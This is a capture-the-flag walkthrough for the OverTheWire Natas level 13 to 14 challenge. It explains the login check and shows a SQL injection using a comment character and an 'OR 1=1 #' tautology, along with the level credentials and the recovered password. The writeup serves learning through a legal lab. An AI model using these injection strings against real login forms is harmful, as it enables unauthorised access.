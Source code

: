 # [Level 13 to 14](https://overthewire.org/wargames/natas/natas14.html) - SQL injection

- Login
```
URL: http://natas14.natas.labs.overthewire.org
Username: natas14
Password: z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```
- Exercise:
  ![image](https://github.com/user-attachments/assets/9ebcf907-da60-4f2f-9c6c-0229963b8327)
  ![image](https://github.com/user-attachments/assets/8f2b9887-55c0-4958-917b-dd930894220e)
- Background:
- Solution:
  - Source code explanation
    - If the request includes "username" as a key in the data, connect to the MySQL database and perform a `SELECT` query from the users database with user input
    - If the request includes "debug", show what query is being executed
    - If the query returns 1 or more rows, print the password
    - Otherwise print "access denied"
  - Database query:
  ```sql
  SELECT * from databaseTableOfUsers where username = "$userProvidedUsername" and password = "$userProvidedPassword"
  ```
    - SELECT * means “select all”, so the entire string means, select everything from the users table where [stated username and password] conditions are true
    - User could provide something like " # (# is comment) and the query would look like:
  ```sql
  SELECT * from databaseTableOfUsers where username = "" # "" and password = "$userProvidedPassword"
  ```
    - Query would be interpreted as:
  ```sql
  SELECT * from databaseTableOfUsers where username = "" #
  ```
  - Change query to
  ```sql
  SELECT * from databaseTableOfUsers where username = "" OR 1=1 #
  ```
  - ![image](https://github.com/user-attachments/assets/55642d87-cd5c-4887-abe4-8b4242343d1d)
  - ![image](https://github.com/user-attachments/assets/be860f19-a586-4812-8a4e-032f7b44e198)
- Password: `SdqIqBsFcz3yotlNYErZSZwblkm0lrvx`
